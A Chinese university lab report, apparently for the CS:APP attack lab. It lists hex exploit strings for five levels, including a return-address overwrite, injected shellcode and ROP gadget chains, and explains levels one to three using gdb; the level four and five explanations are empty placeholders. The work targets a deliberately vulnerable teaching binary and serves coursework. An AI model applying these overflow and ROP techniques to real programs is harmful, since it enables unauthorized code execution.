







# ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

* **level1**  
  
* **level2**  

* **level3**

* **level4**

* **level5**


## 字符答案

* **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
* **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
* **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
* **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
* **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

* **level1**
阅读getbuf及touch1对应的汇编语句片段，即下图。

发现getbuf第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。
原本进入getbuf之前栈顶存储的应当是下一句执行语句的位置，则将溢出值设置为touch1开始位置4017c0，可以误导程序调用touch1。
因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。
使用cat level1.txt | ./hex2raw | ./ctarget -q验证答案正确。

* **level2**
阅读touch2，发现它要求调用前%rdi的值已经被赋为cookie。因此我们需要执行自己的代码，可以利用缓冲区注入。movq可以用于赋值，而pushq可以把touch2的首地址压入栈中，之后ret。则栈中从上到下（栈底到栈顶）的语句顺序为：ret-pushq-movq（此句位于%rsp地址），执行顺序为：赋值-压栈-返回-读栈顶开始执行touch2。
注入汇编代码如下：

```S
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

用gcc -c level.s和objdump -d level.o > level.d指令得到机器码，将它注入缓冲区开头。为了让程序从缓冲区开头开始执行，缓冲区后溢出处所放地址应当为%rsp的地址。用gdb在getbuf设置断点，查询出%rsp的地址，具体操作如下。

因此答案字符串为：注入代码机器码+仍旧补字符到40byte+%rsp首地址。

* **level3**
阅读touch3，发现要求传递的参数为字符串指针类型，这意味着我要预先找地方把字符串存下，再把地址传给%rdi。且hexmatch会随机修改栈，因此如果我们把字符串存在栈中touch3首地址之后的位置，调用touch3时这部分栈已经被执行并处于%rsp之下，hexmatch申请的新buf就可能覆盖这一段栈，字符串的内容可能会被改变。为了方便起见，（以及我并不需要顾虑我的行动如何破坏了之前的栈，只要正确执行完touch3就达到目的，所以可以不负责任地乱放），不妨就把它放到getbuf栈帧之前，即test栈帧。
有趣的是，我们注入的代码显然也会位于touch3之后，为什么不担心它被覆盖呢？这是由于这些代码被执行之后，我们的目的已经达到，寄存器已经被正确修改，所以即使它们被覆盖也无所谓；但是我们为%rdi传入的是字符串指针的地址，后续使用的具体值仍然要到原地址去查找，所以它被覆盖是我们不能接受的。
此外，我们还需要把八位的cookie按字符串格式翻译成16进制，man ascii指令可以调出ASCII码表，按位对照查找即可。
进入解题步骤，getbuf申请了0x28个byte，我们再向前推一个地址，即%rsp+0x30。首先用gdb语句查询出该地址：0x5561dca8，我们在%rsp地址之后继续溢出8个byte，将这个地址内容改为16进制字符串即可。

movq和pushq流程与level2类似，要注入的代码为：

```S
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

因此答案字符串即为：注入代码机器码+仍旧补字符到40byte+%rsp首地址+16进制字符串。

* **level4**
b

* **level5**
v

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化（PIE）和栈不可执行（NX）能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。Canary，即push被保存的寄存器后，push一个canary离开时检查是否被修改，能够提供更有效的保护。开始感觉安全攻防是很有意思的系统实践。
2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。
3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效规定。
4. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。
